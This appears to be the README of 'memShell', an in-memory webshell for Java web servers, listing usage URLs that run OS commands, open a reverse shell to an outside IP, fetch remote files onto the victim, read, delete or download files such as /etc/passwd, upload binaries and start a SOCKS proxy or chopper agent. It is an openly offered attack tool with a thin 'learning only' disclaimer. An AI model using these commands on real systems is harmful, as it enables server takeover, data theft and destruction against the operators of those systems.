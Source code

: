 # memShell
a webshell resides in the memory of java web server

# Usage
* anyurl?pwd=pass //show this help page.  
* anyurl?pwd=pass&model=exec&cmd=whoami  //run os command.  
* anyurl?pwd=pass&model=connectback&ip=8.8.8.8&port=51 //reverse a shell back to 8.8.8.8 on port 51.  
* anyurl?pwd=pass&model=urldownload&url=http://xxx.com/test.pdf&path=/tmp/test.pdf //download a remote file via the victim's network directly.  
* anyurl?pwd=pass&model=list[del|show]&path=/etc/passwd  //list,delete,show the specified path or file.  
* anyurl?pwd=pass&model=download&path=/etc/passwd  //download the specified file on the victim's disk.  
* anyurl?pwd=pass&model=upload&path=/tmp/a.elf&content=this_is_content[&type=b]   //upload a text file or a base64 encoded binary file to the victim's disk.  
* anyurl?pwd=pass&model=proxy  //start a socks proxy server on the victim.  
* anyurl?pwd=pass&model=chopper  //start a chopper server agent on the victim.  

# note
For learning exchanges only, do not use for illegal purposes.by rebeyond.
